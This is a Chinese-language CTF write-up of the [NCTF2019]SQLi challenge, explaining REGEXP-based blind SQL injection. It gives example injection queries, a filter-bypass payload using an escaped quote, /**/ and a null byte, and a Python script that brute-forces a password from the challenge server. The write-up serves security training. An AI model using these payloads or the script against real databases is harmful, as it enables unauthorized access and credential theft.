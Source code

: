```yaml
---

title: 日常练习39——正则注入

date: 2021-07-27 10:33:37

tags: 练习

categories: test89

---
```

今天又扩充了sql注入方式——正则注入。  

# [NCTF2019]SQLi  

其实正则注入之前打比赛也碰到过，但是当时没有来得及总结，今天又做到了一道这样的题目，就详细的说一下。  

打开题目就可以看到它已经给出了sql后台注入的语句。并且这道题我们可以通过查看robots.txt来得到提示。提示在hint.php里。  

[![](https://pic.imgdb.cn/item/61001ef25132923bf8ba6900.png)](https://pic.imgdb.cn/item/61001ef25132923bf8ba6900.png)  

可以看到过滤了很多常规的sql注入字符。但是这里却没有过滤正则注入的关键字符： regexp。接下来就讲一下正则注入。  

## 正则注入  

其实正则注入很简单，它依靠的就是regexp这个函数，它支持正则表达式匹配。  

比如说下面的例子：  

	判断第一个表名的第一个字符是否在a-z之间
	
	?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*
	
	
	REGEXP '^[a-z]'即是匹配正则表达式，^表示匹配字符串的开始，[a-z]即匹配字母a-z

	判断第一个表名的第一个字符是n
	
	index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /*


可以看到regexp的用法，即regexp '^要匹配的字符'。我们利用regexp的正则匹配机制加上and或or就可以利用不同的回显进行注入了。  

举个简单的例子：  

	例如security数据库的表有多个，users，email等
	
	 
	
	select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);是正确的
	
	 
	
	select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);是正确的
	
	 
	
	select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1);是正确的
	
	 
	
	select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1);不正确
	
	 
	
	select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1);不正确
	
	实验表明：在limit 0,1下，regexp会匹配所有的项。我们在使用regexp时，要注意有可能有多个项，同时要一个个字符去**。类似于上述第一条和第二条。而此时limit 0,1此时是对于where table_schema='security' limit 0,1。table_schema='security'已经起到了限定作用了，limit有没有已经不重要了。limit 作用在前面的 select 语句中，而不是 regexp。
但是在具体的题目中我们还是要变化注入的方式的了。  

在这道题目中已经给出了sql后台注入语句，并且提示中也已经说了，只要密码正确就可以得到flag，所以说我们只需要爆出密码即可。  

如何构造sql注入呢，这是这道题的重点。  

我们又要用到转义字符\了。  

这样构造：  

	username=\&passwd=||/**/passwd/**/regexp/**/"^a";%00  

这里用/**/来代替空格的过滤,||来代替or，%00来代替--，#注释符。（这些都是常规的代替技巧）  

那么我们的后台注入语句就变成了这样：  

	select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/"^a";%00  

因为转义符\的存在\后的单引号'被转义那么闭合的单引号顺延一个，所以username的值实际上是\' and passwd=，整个sql语句变成了这样：  

	select * from users where username=   '\' and passwd='      ||     /**/passwd/**/regexp/**/"^a";%00  

而我们就可以通过正则匹配regexp并且不断改变字符从而得到完整密码。  

接下来就是看一下正确回显是什么，从而编写脚本来爆破。这里我们可以用抓包爆破来查看。   

[![](https://pic.imgdb.cn/item/610026385132923bf8dd7163.png)](https://pic.imgdb.cn/item/610026385132923bf8dd7163.png)  

通过爆破可以看到第一个字母是y，接着查看正确的回显页面。  

[![](https://pic.imgdb.cn/item/610026675132923bf8de5a40.png)](https://pic.imgdb.cn/item/610026675132923bf8de5a40.png)  

可以看到正确回显有一个welcom.php，那么我们就可以以此来编写脚本。  

	import requests
	import time
	from urllib import parse
	
	s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&(),-./:;<=>@[\]_`{|}~'
	
	flag=''
	for i in range(1,100):
    for j in s:
        url='http://d4dc31f0-ee38-41f1-a3ec-e4eac1ebebe1.node4.buuoj.cn/index.php'
        header={
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36',
            'Origin': 'http://d4dc31f0-ee38-41f1-a3ec-e4eac1ebebe1.node4.buuoj.cn',
            'Referer': 'http://d4dc31f0-ee38-41f1-a3ec-e4eac1ebebe1.node4.buuoj.cn/index.php'
        }
        print(flag+j)
        data = {'passwd':"||/**/passwd/**/regexp/**/\"^{}\";{}".format(flag+j,parse.unquote('%00')),"username":"\\"}

        # data = {'passwd': "||/**/username/**/regexp/**/\"^{}\";{}".format(flag + j, parse.unquote('%00')),"username": "\\"}
        print(data)
        r = requests.post(url=url, data=data,headers=header)
        if "welcome.php" in r.text:
            flag +=j
            print(flag)
            break
        test = flag

	print(flag)   

因为已经说过只需要密码即可，那么我们直接爆出密码就可以登录得到flag。   

[![](https://pic.imgdb.cn/item/610026f95132923bf8e13a22.png)](https://pic.imgdb.cn/item/610026f95132923bf8e13a22.png)   

可以看到密码有大小写，这里就要说一个小细节，那就是regexp是不区分大小写的，所以我们要将结果转成小写。然后登录得到flag。  

# 小结   

正则注入原理就在regexp这个正则表达式的匹配上，并不难理解，重点还是如何构造和如何写脚本，sql注入大都难在这两点上。   

参考文章：  

[SQL正则盲注-regexp](https://www.freesion.com/article/2367234678/)